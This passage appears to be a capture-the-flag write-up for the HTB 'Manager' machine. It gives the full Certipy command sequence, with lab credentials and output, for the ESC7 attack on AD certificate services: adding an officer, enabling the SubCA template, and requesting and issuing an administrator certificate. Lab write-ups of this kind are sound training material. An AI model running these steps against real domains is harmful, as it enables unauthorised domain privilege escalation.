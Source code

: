 ```
└─# certipy find -u raven@manager.htb  -p R4v3nBe5tD3veloP3r\!123 -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Saved BloodHound data to '20231023020114_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231023020114_Certipy.txt'
[*] Saved JSON output to '20231023020114_Certipy.json'
```
and here i found a dangerous:
``` 
[!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions```
found : https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md#ESC7-Vulnerable-CA-ACL
```
Now Synchronise the time with the domain controller:
and then manual attack here : `https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2`

```
└─# certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password R4v3nBe5tD3veloP3r\!123 -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'

# List templates
└─# certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password R4v3nBe5tD3veloP3r\!123 -dc-ip 10.10.11.236 -enable-template 'SubCA'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.

```
└─# certipy req -username raven@manager.htb -password R4v3nBe5tD3veloP3r\!123 -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 53
Would you like to save the private key? (y/N) y
[*] Saved private key to 53.key
[-] Failed to request certificate



└─# certipy ca -ca 'manager-DC01-CA' -issue-request 53 -username raven@manager.htb -password R4v3nBe5tD3veloP3r\!123
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate

```